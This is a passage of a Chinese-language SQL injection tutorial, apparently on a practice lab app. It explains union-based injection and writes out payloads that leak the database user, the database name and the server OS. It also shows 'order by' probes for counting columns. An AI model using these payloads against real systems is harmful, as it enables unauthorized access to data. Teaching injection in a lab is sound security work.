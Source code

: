 不可以 500 是服务器端的错误 无法判定是由我们输入的歧义sql数值造成的数据库报错。



下面 我们需要制作一个有歧义的sql语句

输入框输入以下内容 返回了数据库用户和库名

~~~
1' and 1=2 union select user(),database() #
~~~

![image-20230315133328151](D:\Program Files\Typora\images\image-20230315133328151.png)

拼接原来的语句就是

~~~
SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2 union select user(),database() #'
~~~

union是两个结果做的拼接  前面的语句 因为1永远不等于2  所有永远没有结果

~~~
SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2
~~~

后面的语句 查询用户名和数据库名 # ’  就是通过# 把后面的‘ 作为注释注释掉

~~~
select user(),database()
~~~



两个拼接的前提条件是字段数要一直  前面字段是 first_name, last_name 两个字段  后面的user  database  也是两个字段  可以拼接到一起

完整的的数据库可执行的语句就是

~~~
SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2 union select user(),database()
~~~

整个语句执行的部分就是union后面的部分



**漏洞攻击**



查询操作系统信息 因为前面是两个字段 后面是一个  所有 select 1 是一个占位符

~~~
1' and 1=2 union select 1,@@global.version_compile_os from mysql.user #
~~~

![image-20230315134543850](D:\Program Files\Typora\images\image-20230315134543850.png)

判断字段数量

order by 2 用于排序 示对要查询的第二个字段进行排序

我们输入 `1' order by 1#` 结果页面正常显示。继续测试，`1' order by 2#`,`1' order by 3#`，当输入3是，页面报错。页面错误信息如下，`Unknown column '3' in 'order clause'`，由此我们判断查询结果值为2列。

